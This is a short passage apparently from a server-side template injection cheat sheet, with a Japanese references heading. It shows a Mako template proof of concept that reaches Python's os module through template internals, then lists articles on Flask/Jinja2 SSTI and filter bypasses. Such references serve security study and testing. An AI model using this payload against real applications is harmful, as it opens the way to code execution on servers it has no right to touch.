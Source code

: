 PoC :

```python
>>> print(Template("${self.module.cache.util.os}").render())
<module 'os' from '/usr/local/lib/python3.10/os.py'>
```

## 参考文献

- [Cheatsheet - Flask & Jinja2 SSTI - phosphore - September 3, 2018](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
- [Exploring SSTI in Flask/Jinja2, Part II - Tim Tomes - March 11, 2016](https://web.archive.org/web/20170710015954/https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/)
- [Jinja2 template injection filter bypasses - Sebastian Neef - August 28, 2017](https://0day.work/jinja2-template-injection-filter-bypasses/)
- [Python context free payloads in Mako templates - podalirius - August 26, 2021](https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/)